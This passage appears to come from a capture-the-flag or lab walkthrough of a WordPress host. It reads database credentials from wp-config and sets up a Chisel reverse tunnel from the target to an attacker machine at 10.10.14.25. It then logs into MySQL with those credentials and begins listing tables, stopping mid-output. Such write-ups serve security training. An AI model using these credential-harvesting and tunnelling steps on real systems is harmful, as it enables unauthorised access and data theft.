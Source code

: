 ```bash
drwxr-xr-x   1 root root 4096 Jun  1  2024 ..
-rwxr-xr-x   1 root root    0 Jun  1  2024 .dockerenv
lrwxrwxrwx   1 root root    7 Feb 11  2024 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Jan 28  2024 boot
drwxr-xr-x   5 root root  340 Feb  2 10:52 dev
drwxr-xr-x   1 root root 4096 Jan 17 15:00 etc
drwxr-xr-x   2 root root 4096 Jan 28  2024 home
lrwxrwxrwx   1 root root    7 Feb 11  2024 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Feb 11  2024 lib64 -> usr/lib64
drwxr-xr-x   2 root root 4096 Feb 11  2024 media
drwxr-xr-x   2 root root 4096 Feb 11  2024 mnt
drwxr-xr-x   2 root root 4096 Feb 11  2024 opt
dr-xr-xr-x 236 root root    0 Feb  2 10:52 proc
drwx------   1 root root 4096 Jan 17 15:02 root
drwxr-xr-x   1 root root 4096 Feb  3 05:14 run
lrwxrwxrwx   1 root root    8 Feb 11  2024 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Feb 11  2024 srv
dr-xr-xr-x  13 root root    0 Feb  2 10:52 sys
drwxrwxrwt   1 root root 4096 Feb  3 03:12 tmp
drwxr-xr-x   1 root root 4096 Feb 11  2024 usr
drwxr-xr-x   1 root root 4096 Feb 13  2024 var
```
We can find database credentials in `wp-config`:
```php
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wp_user' );
define( 'DB_PASSWORD', 'wp_password' );
define( 'DB_HOST', '172.17.0.1' );
define( 'DB_CHARSET', 'utf8mb4' );
define( 'DB_COLLATE', '' );
```
Let's forward these ports using `Chisel` and connect to the database from our attacking machine:
```bash
#Attacker
./chisel server -p 8000 -reverse
#Target
./chisel client 10.10.14.25:8000 R:3306:172.17.0.1:3306
#Attacker
mysql -D 'wordpress' -u 'wp_user' -h 172.17.0.1 --skip-ssl -p'wp_password'
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 2839
Server version: 8.0.32 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [wordpress]>
```
grabbing tables:
```sql
SHOW TABLES;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
```